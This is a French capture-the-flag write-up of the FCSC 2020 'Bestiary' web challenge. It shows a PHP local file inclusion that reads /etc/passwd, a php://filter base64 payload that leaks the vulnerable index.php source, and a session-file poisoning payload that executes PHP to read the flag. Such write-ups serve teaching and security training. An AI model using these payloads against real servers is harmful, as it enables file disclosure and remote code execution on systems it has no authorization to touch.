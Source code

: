 # Bestiary

Auteur: Ewaël

**Bestiary** est un des challenges web à 100 points du FCSC 2020 et dont voici l'énoncé:

![Bestiary](bestiary.png)

Le lien menant sur une page avec un bestiaire qui regroupait des informations sur la créature choisie.

![Index.php](index.png)

La première chose que je remarque est la manière dont la créature choisie est envoyée dans la requête: par le paramètre `monster` dans l'URL. Je teste alors directement `monster=flag` et je vois que rien ne s'affiche là où `monster=test` renvoie l'erreur suivante:

![monster=test](test.png)

C'est ainsi que je suis parti sur ma première piste: une simple LFI. En effet, `
Warning: include(/usr/local/lib/php/test): failed to open stream: No such file or directory in /var/www/html/index.php on line 33` me fait clairement penser que le serveur se contente d'afficher la page demandée, et j'imagine que si le mot *flag* est filtré, on peut quand même trouver d'autres informations intéressantes. Je commence par vérifier ma théorie en allant chercher des fichiers généralement croustillants, et effectivement, ça fonctionne:

![/etc/passwd](passwd.png)

Le problème, c'est que je n'en tire pas grand chose. Pareil du côté des hosts, fausse piste. En regardant les possibilités qu'offre la LFI, je tombe sur la bonne piste. En effet, la faille à exploiter est une application spécifique de LFI: l'utilisation des filtres php. Je comprends qu'il est possible de lire le code php de la page `index.php` grâce à cette page:

[http://pims.tuxfamily.org/blog/2010/05/nouvelle-technique-de-lfi-les-filtres-php](http://pims.tuxfamily.org/blog/2010/05/nouvelle-technique-de-lfi-les-filtres-php/)

J'essaie donc de passer par le base 64 en envoyant `/index.php?monster=php://filter/read=convert.base64-encode/resource=index.php` et ça fonctionne, on décode la chaine renvoyée et on récupère notre joli *index.php*:

```php
<?php
	session_save_path("./sessions/");
	session_start();
	include_once('flag.php');
?>
<html>
<head>
	<title>Bestiary</title>
</head>
<body style="background-color:#3CB371;">
<center><h1>Bestiary</h1></center>
<script>
function show()
{
	var monster = document.getElementById("monster").value;
	document.location.href = "index.php?monster="+monster;
}
</script>

<p>
<?php
	$monster = NULL;

	if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
		$monster = $_SESSION['monster'];
	if(isset($_GET['monster']) && !empty($_GET['monster']))
	{
		$monster = $_GET['monster'];
		$_SESSION['monster'] = $monster;
	}

	if($monster !== NULL && strpos($monster, "flag") === False)
		include($monster);
	else
		echo "Select a monster to read his description.";
?>
</p>

<select id="monster">
	<option value="beholder">Beholder</option>
	<option value="displacer_beast">Displacer Beast</option>
	<option value="mimic">Mimic</option>
	<option value="rust_monster">Rust Monster</option>
	<option value="gelatinous_cube">Gelatinous Cube</option>
	<option value="owlbear">Owlbear</option>
	<option value="lich">Lich</option>
	<option value="the_drow">The Drow</option>
	<option value="mind_flayer">Mind Flayer</option>
	<option value="tarrasque">Tarrasque</option>
</select> <input type="button" value="show description" onclick="show()">
<div style="font-size:70%">Source : https://io9.gizmodo.com/the-10-most-memorable-dungeons-dragons-monsters-1326074030</div><br />
</body>
</html>
```

Je réalise tout de suite qu'effectivement le mot "flag" était bien filtré, j'ai d'ailleurs d'abord foncé tête baissée sur ce problème avant de réaliser que la solution n'était pas là. En effet ce qui m'intéresse se situe dans ces lignes:

```php
<?php
	session_save_path("./sessions/");
	session_start();
	include_once('flag.php');
?>
```

Après recherches sur ce `session_save_path` je comprends qu'on peut accéder à un fichier potentiellement intéressant dans `sessions/sess_b112ccb116944fa18da40b335829e4ae`, "b112ccb116944fa18da40b335829e4ae" étant mon cookie *PHPSESSID*. On trouve sur cette page simplement la chaine contenant notre dernière requête, dans mon cas: `monster|s:4:"test";`.

Ainsi j'ouvre un autre onglet pour envoyer la requête avec le payload, et je garde cet onglet pour rafraîchir la page une fois le payload envoyé, afin de voir le résultat. J'envoie donc d'abord `/index.php?monster=<?php%20echo%20file_get_contents("flag.php");%20?>` afin d'afficher le flag, puis je retourne sur l'onget `/index.php?monster=sessions/...` puis dans le code source, et surprise, voilà le flag:

![flag](flag.png)

`FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}`
